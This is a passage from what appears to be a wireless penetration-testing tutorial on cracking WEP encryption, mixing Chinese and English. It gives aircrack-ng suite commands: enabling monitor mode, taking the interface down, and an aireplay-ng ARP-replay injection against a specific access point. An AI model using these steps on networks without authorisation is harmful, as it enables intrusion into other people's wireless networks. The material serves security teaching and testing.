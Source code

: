     如果在运行此命令时遇到问题，请在启用监视模式后尝试关闭界面。以下是如何做到这一点：

    ```
    airmon-ng start wlan0

    ```

    然后，运行以下命令：

    ```
    ifconfig wlan0 down

    ```

    这应该解决通道`-1`错误消息，如图所示：

    ![Cracking WEP encryption](img/3183OS_04_10.jpg)

5.  Type the following command and press *Enter*:

    ```
    aireplay-ng -3 –b 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0

    ```
